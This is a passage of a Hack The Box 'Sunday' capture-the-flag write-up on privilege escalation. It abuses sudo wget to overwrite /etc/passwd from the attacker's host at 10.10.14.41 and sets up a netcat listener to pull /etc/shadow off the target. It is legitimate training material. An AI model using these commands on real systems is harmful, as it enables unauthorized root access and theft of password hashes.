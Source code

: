 I can use this to overwrite a file on the file system.
[GTFOBins][] has some examples.
One option is to overwrite the `/root/troll` script that `sunny` has access to execute.
But, I'd like to go even simpler.
Let's look at `/etc/passwd`.

```bash
sammy@sunday:~$ cat /etc/passwd
root:x:0:0:Super-User:/root:/usr/bin/bash
daemon:x:1:1::/:
bin:x:2:2::/usr/bin:
sys:x:3:3::/:
adm:x:4:4:Admin:/var/adm:
lp:x:71:8:Line Printer Admin:/usr/spool/lp:
uucp:x:5:5:uucp Admin:/usr/lib/uucp:
nuucp:x:9:9:uucp Admin:/var/spool/uucppublic:/usr/lib/uucp/uucico
dladm:x:15:3:Datalink Admin:/:
smmsp:x:25:25:SendMail Message Submission Program:/:
listen:x:37:4:Network Admin:/usr/net/nls:
gdm:x:50:50:GDM Reserved UID:/:
zfssnap:x:51:12:ZFS Automatic Snapshots Reserved UID:/:/usr/bin/pfsh
xvm:x:60:60:xVM User:/:
mysql:x:70:70:MySQL Reserved UID:/:
openldap:x:75:75:OpenLDAP User:/:
webservd:x:80:80:WebServer Reserved UID:/:
postgres:x:90:90:PostgreSQL Reserved UID:/:/usr/bin/pfksh
svctag:x:95:12:Service Tag UID:/:
nobody:x:60001:60001:NFS Anonymous Access User:/:
noaccess:x:60002:60002:No Access User:/:
nobody4:x:65534:65534:SunOS 4.x NFS Anonymous Access User:/:
sammy:x:101:10:sammy:/export/home/sammy:/bin/bash
sunny:x:65535:1:sunny:/export/home/sunny:/bin/bash
```

I copy this down and modify it locally so that `root` now has a password defined as `root`.

```
root:root:0:0:Super-User:/root:/usr/bin/bash
```

Now I can call `wget` as the `sammy` user and overwrite `/etc/passwd`.

```bash
sudo wget http://10.10.14.41:8000/passwd -O /etc/passwd
```

Hmm... this didn't work.
I imagine there is a root password hash in the real `/etc/shadow` taking precedence.
So much for simpler.
I could go back to `/root/troll` but now I want to beat this.
I opt to stream `/etc/shadow`'s contents off the target.

I set up a netcat listener on my host:

```bash
artis3n@kali-pop:~/shares/htb/sunday$ sudo nc -lvnp 80 > shadow
listening on [any] 80 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.76] 53870
^C
```


[finger]: https://book.hacktricks.xyz/pentesting/pentesting-finger
[finger enum]: https://github.com/pentestmonkey/finger-user-enum
[gtfobins]: https://gtfobins.github.io/gtfobins/wget/#sudo
[hackthebox]: https://www.hackthebox.eu
[john]: https://github.com/magnumripper/JohnTheRipper
[patator]: https://github.com/lanjelot/patator
[finger enum results]: /assets/img/htb/sunday/finger-enum-results.png